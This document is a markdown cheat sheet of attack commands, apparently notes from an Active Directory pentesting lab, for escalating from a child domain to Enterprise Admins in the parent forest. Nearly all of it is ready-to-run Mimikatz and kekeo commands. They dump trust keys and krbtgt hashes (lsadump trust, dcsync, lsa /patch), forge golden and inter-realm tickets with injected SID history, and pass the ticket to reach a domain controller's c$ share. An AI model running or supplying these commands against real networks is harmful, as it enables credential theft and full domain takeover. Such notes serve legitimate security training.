 # Enterprise Admins

## Child to parent - trust tickets

**Dump trust keys**

Look for in trust key from child to parent (first command) - This worked best for me! Second command didn't work :( Look for NTLM hash (second command)

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <computername>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<computername>$"'
```

**Create an inter-realm TGT**

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<domain> /sid:<sid of current domain> /sids:<sid of enterprise admin groups of the parent domain> /rc4:<trust hash> /service:krbtgt /target:<target domain> /ticket:<path to save ticket>"'
```

**Create a TGS for a service (kekeo\_old)**

```
./asktgs.exe <kirbi file> CIFS/<forest dc name>
```

**Use TGS to access the targeted service (may need to run it twice) (kekeo\_old)**

```
./kirbikator.exe lsa .\<kirbi file>
```

**Check access to server**

```
ls \\<servername>\c$ 
```

## Child to parent - krbtgt hash

**Get krbtgt hash from dc**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

**Create TGT**

the mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<sid> /sids:<sids> /krbtgt:<hash> /ticket:<path to save ticket>"'
```

**Inject the ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <path to ticket>"'
```

**Get SID of enterprise admin**

```
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData | select samaccountname, objectsid
```

